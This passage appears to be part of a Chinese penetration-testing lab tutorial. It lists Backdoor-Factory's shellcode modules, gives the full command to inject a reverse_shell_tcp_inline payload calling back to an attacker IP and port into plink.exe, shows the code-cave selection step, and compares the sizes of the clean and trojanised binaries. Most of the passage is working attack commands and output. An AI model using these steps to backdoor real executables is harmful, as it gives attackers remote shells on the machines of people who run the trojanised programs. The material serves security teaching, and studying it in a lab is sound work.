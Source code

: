 由上图输出的信息可以知道，我们可以使用的 Shellcode 模块共有 9 个，每个 Shellcode 功能不尽相同：

```
cave_miner_inline
iat_reverse_tcp_inline
iat_reverse_tcp_inline_threaded
iat_reverse_tcp_stager_threaded
iat_user_supplied_shellcode_threaded
meterpreter_reverse_https_threaded
reverse_shell_tcp_inline
reverse_tcp_stager_threaded
user_supplied_shellcode_threaded
```

在这里，我们使用 `reverse_shell_tcp_inline` 这个 Shellcode，作用是会话通道的建立。Shellcode 是一段用于利用软件漏洞而执行的代码，以其经常让攻击者获得 shell 而得名。Shellcode 常常使用机器语言编写。

使用 Backdoor-Factory 对指定的 `plink.exe` 程序植入木马，并设置攻击者的 IP 地址和侦听的端口号：
```
# 使用 Backdoor-Factory 设置攻击者的 IP 地址和端口号
backdoor-factory -f /usr/share/windows-binaries/plink.exe -s reverse_shell_tcp_inline -H 192.168.122.101 -P 4444
```

在输入命令后，可以看到如下代码可利用的漏洞：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482894341133.png-wm)

其中 `[!] Enter your selection: ` 这段代码的意思是选择你要利用的漏洞，`这里我们输入 2`，即使用第二个漏洞的意思，由最后一句代码 `File plink.exe is in the 'backdoored' directory` 知道生成的程序在文件夹 `backdoored` 下。

```
...
...
# 选择你要利用的漏洞
[!] Enter your selection: 2
...
...
# 意思是在文件 backdoored 下
File plink.exe is in the 'backdoored' directory
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482894462113.png-wm)

通过 `ls -l` 命令对比正常程序和木马程序两者之间的大小，在命令行终端中输入如下命令：

```
# 对比正常程序和木马程序两者之间的大小

# 查看原本正常程序的大小
ls -l /usr/share/windows-binaries/plink.exe 

# 查看植入正常程序的木马程序大小
ls -l backdoored/plink.exe
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482895030653.png-wm)
